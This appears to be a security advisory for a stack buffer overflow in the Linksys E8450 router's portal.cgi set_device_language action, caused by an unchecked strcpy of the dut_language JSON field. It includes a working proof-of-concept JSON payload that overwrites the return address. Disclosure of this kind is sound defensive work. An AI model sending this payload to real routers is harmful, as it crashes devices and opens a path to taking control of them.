


# Information


**Vendor of the products:** Linksys Holdings, Inc.

**Vendor's website:** [Linksys | Networking & WiFi Technology](https://www.linksys.com/)

**Reported by:** CH13hh ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** E8450

**Affected firmware version:** <=Ver. 1.2.00.360516

**Firmware download address:** [download]([E8450 下载、文档和用户指南 - Linksys 支持 --- E8450 Downloads, Documents and User Guide - Linksys Support](https://support.linksys.com/kb/article/5583-cn/))

# Overview

A serious buffer overflow vulnerability was found in the Linksys router E8450. An attacker can send a malicious HTTP POST request through the file portal.cgi and construct malicious JSON data to request the set_device_language operation, which can cause a buffer overflow, control the return address, and even execute arbitrary commands.

# Vulnerability details

Here, the key value dut_language of the json is copied to the stack through strcpy without performing a bounds check.



# POC

```
{"action": "set_device_language","page": "set_status","dut_language": "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaabzaaaaaacbaaaaaaccaaaaaacdaaaaaaceaaaaaacfaaaaaacgaaaaaachaaaaaaciaaaaaacjaaaaaackaaaaaaclaaaaaacmaaaaaacnaaaaaacoaaaaaacpaaaaaacqaaaaaacraaaaaacsaaaaaactaaaaaacuaaaaaacvaaaaaacwaaaaaacxaaaaaacyaaaaaaczaaaaaadbaaaaaadcaaaaaaddaaaaaadeaaaaaadfaaaaaadgaaaaaadhaaaaaadiaaaaaadjaaaaaadkaaaaaadlaaaaaadmaaaaaadnaaaaaadoaaaaaadpaaaaaadqaaaaaadraaaaaadsaaaaaadtaaaaaaduaaaaaad"}
```

It can be seen that the return address has been controlled here, causing the program to crash.

